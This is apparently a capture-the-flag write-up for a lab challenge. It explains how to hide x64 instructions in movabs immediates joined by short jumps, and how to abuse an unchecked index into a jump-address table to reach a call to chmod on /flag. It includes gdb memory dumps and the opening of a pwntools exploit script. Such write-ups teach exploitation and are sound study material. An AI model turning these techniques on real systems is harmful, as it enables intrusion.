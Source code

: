 The goal is to call `chmod("/flag", 777)`, a single syscall that would get the job done. 

My idea is simple - forge every x64 instruction by using the `movabs` x64 instruction. This would allow us to write 8 bytes of our wish (the immediate part of the instruction). We would end every `movabs` instruction with a short jmp opcode, hence this method would support unlimited amount of 6 bytes (`8 - (sizeof(jmp)==2)`) instructions. 

Of course, the very first instruction should be a jump that would skip the 2 first bytes of the movabs instruction. 

A major mitigation this challenge has, is that it keeps track of the interpreted instructions addresses. \
Upon calling the `JMP` opcode, it accesses a recorded legitimate instructions addresses array, serving as the only legitimate destination values of `JMP` instructions, retireves legit addresses from there. \
Hence, we cannot simply jump to any address we wish on the native `x64` code.

Apparently there's a vuln (not sure if this was intended) where we can supply a malicious index to this "legitimate jump addresses" array, up to 64-bit. \
My first idea was to wrap around the VA space, hence accessing bytes prior to the leigitmate addresses array. 

For example, the legit addresses array starts at `0x7ffc0207d038`:

```bash
0x7ffc0207d028: 0x0000000000000000      0x0000000001337000
0x7ffc0207d038: 0x0000000000000046      0x0000000000000057
0x7ffc0207d048: 0x0000000000000088      0x0000000000000099
0x7ffc0207d058: 0x00000000000000aa      0x00000000000000bb
0x7ffc0207d068: 0x00000000000000cc      0x00000000000000dd
```

If I’d supply index of `0xffffffffffffffff`, the program would access `0x0000000001337000`. \
However, this number is too large, and our `x64` address is only mapped to a single page. 

Apparently there's a better candidate at `0x7ffc0207da60`:

```bash
0x7ffc0207da48: 0x0000000000000006      0x0000000000001000
0x7ffc0207da58: 0x0000000000000011      0x0000000000000064
```

Which means we would be able to jump to address `0x64`, by setting the index to `325`.

```python
from dataclasses import dataclass
from pwn import *
import os, sys
import struct


BINARY = '/challenge/toddlerone_level11.0'
GDB_SCRIPT= '''
b *main+0x274
commands
b *0x1337064
end

c


'''
DEBUG_FILE_PATH = 'my_payload.txt'

@dataclass
class Regs:
    a = b''
    b = b''
    c = b''
```